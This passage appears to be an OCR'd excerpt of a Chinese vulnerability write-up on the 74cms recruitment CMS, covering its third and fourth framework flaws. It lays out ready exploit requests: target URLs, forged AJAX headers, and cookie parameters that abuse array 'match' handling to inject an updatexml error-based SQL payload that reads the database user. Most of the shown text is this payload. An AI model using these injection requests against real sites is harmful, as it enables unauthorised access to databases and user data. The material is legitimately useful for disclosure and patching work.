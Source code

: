     cookie:
    members_uc_info[reg_type]=1;         // 必须为1 满足流程需要
    members_uc_info[utype]=2;         // 必须为2 满足流程需要
    members_uc_info[mobile][0]=match;    // 框架漏洞利用
    members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

    headers:  // 伪造ajax操作
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

0x07 74cms独有框架漏洞第四处
----------------------------

    文件：74cms\upload\Application\Home\Controller\MembersController.class.php
    方法：oauth_reg (
    是否需登录：需要
    登录权限：普通用户/企业用户都可
    url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
    post:
        username = 自己去平台随便注册个账号然后输入那个账号
        password = 自己去平台随便注册个账号然后输入那个密码
    cookie:
        members_bind_info[type][0]=match;
    members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;
